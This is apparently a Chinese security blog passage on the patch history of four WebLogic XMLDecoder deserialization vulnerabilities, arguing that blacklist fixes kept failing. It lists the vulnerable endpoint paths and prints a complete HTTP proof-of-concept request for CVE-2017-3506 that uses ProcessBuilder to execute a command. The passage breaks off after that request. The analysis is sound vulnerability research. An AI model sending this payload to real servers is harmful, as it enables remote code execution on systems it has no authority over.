 # 黑名单不靠谱--WebLogic XMLDecoder漏洞修补历史

CVE-2017-3506、CVE-2017-10271、CVE-2019-2725、CVE-2019-2729四个漏洞是位于同一个调用链中，但是前前后后修补了四次，前三次都是通过黑名单过滤试图解决问题，结果事与愿违，接二连三地继续爆出漏洞。下面通过POC和修补方案简单分析一下这四个漏洞的关系。

这几个洞涉及两个包可以触发。一个是wls-wsat.war，另一个是wls9_async_response.war，两个包中的多个servlet最终调用WorkContextXmlInputAdapter方法以及XmlDeoder触发漏洞，url-pattern如下。

wls-wsat

```
/CoordinatorPortType
/RegistrationPortTypeRPC
/ParticipantPortType
/RegistrationRequesterPortType
/CoordinatorPortType11
/RegistrationPortTypeRPC11
/ParticipantPortType11
/RegistrationRequesterPortType11
```
wls9_async_response，这里面的Soap12没成功，提示namespace问题，可能需要改造poc，挖个坑。
```
/AsyncResponseServiceHttps
/AsyncResponseServiceJms
/AsyncResponseService
/AsyncResponseServiceSoap12Jms
/AsyncResponseServiceSoap12
/AsyncResponseServiceSoap12Https
```

后面重点会放在黑名单和补丁的对比，漏洞具体原理会简单提一下。

## CVE-2017-3506

首先是CVE-2017-3506的poc，最原始使用object标签指定class，使用void标签指定要调用的method达到命令执行的效果。

### POC

这是当时广泛流传的POC。

``` xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: localhost:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: remember-me=MXPUSANQRVaBJYtUucUgmQ==
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 495

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">  
  <soapenv:Header> 
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">  
<java>
	<object class="java.lang.ProcessBuilder">
		<array class="java.lang.String" length="1" >
			<void index="0"> 
				<string>calc</string>			
			</void>		
		</array>
		<void method="start"/>
	</object>
</java>
```